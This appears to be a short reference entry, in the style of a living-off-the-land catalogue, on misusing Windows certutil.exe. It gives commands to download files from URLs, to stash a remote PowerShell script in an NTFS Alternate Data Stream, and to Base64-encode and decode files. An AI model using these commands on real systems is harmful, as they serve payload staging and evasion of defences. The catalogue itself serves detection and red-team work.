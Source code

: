 ###DENEME
## Certutil.exe
* Functions: Download, Add ADS, Decode, Encode
```

certutil.exe -urlcache -split -f http://7-zip.org/a/7z1604-x64.exe 7zip.exe
Download and save 7zip to disk in the current folder.

certutil.exe -urlcache -split -f https://raw.githubusercontent.com/Moriarty2016/git/master/test.ps1 c:\temp:ttt
Download and save a PS1 file to an Alternate Data Stream (ADS).

certutil -encode inputFileName encodedOutputFileName
certutil -decode encodedInputFileName decodedOutputFileName

Commands to encode and decode a file using Base64.
```
   
* Resources:   
  * https://twitter.com/Moriarty_Meng/status/984380793383370752
  * https://twitter.com/mattifestation/status/620107926288515072
   
* Full path:   
  * c:\windows\system32\certutil.exe
  * c:\windows\sysWOW64\certutil.exe
   
* Notes: Thanks to Matt Graeber - @mattifestation, Moriarty - @Moriarty2016  
